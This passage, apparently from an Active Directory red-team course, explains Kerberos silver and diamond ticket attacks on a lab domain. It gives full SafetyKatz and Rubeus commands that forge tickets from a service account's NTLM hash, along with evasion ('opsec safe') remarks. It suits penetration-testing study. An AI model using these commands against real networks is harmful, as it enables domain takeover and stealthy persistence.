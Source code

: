 | **/sid**:S-1-5-21-210670787-2521448726-163245708 | SID of the current domain |
| **/pwdlastset**:"7/5/2019 12:42:09 AM" | The PasswordLastSet for the user (retrieved from the DC) |
| **/minpassage**:1 | “Minimum Password Age” in days (retrieved from the DC) |
| **/logoncount**:2453 | Logon Count for the user (retrieved from the DC) |
| **/netbios**:us | NetBIOS name of the domain (retrieved from the DC) |
| **/dc**:us-dc.us.techcorp.local | FQDN of the DC (retrieved from the DC) |
| **/uac**:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD | UserAccountControl Flags (retrieved from the DC) |
| **/ptt** | Inject in the current process |

#### Silver Ticket

• A valid TGS (Golden ticket is TGT).
• Encrypted and Signed by the NTLM hash of the service account (Golden
ticket is signed by hash of krbtgt) of the service running with that
account.
• Services rarely check PAC (Privileged Attribute Certificate).
• Services will allow access only to the services themselves.
• Reasonable persistence period (default 30 days for computer accounts).


Using hash of the Domain Controller computer account, below command provides
access to shares on the DC.

```
SafetyKatz.exe '"kerberos::golden /User:Administrator
/domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-
163245708 /target:us-dc.us.techcorp.local /service:cifs
/rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512
/startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```


Forge a Silver ticket. :

```
C:\AD\Tools\Rubeus.exe silver /service:http/us-dc.us.techcorp.local
/rc4:f4492105cb24a843356945e45402073e /ldap /sid:S-1-5-21-210670787-
2521448726-163245708 /user:Administrator /domain:us.techcorp.local
/ptt
```

Just like the Golden ticket, /ldap option queries DC for information related to the
user.

#### Diamond Ticket

A diamond ticket is created by decrypting a valid TGT, making changes to
it and re-encrypt it using the AES keys of the krbtgt account.
• Golden ticket was a TGT forging attacks whereas diamond ticket is a TGT
modification attack.
• Once again, the persistence lifetime depends on krbtgt account.
• A diamond ticket is more opsec safe as it has:
	– Valid ticket times because a TGT issued by the DC is modified
	– In golden ticket, there is no corresponding TGT request for
TGS/Service ticket requests as the TGT is forged.
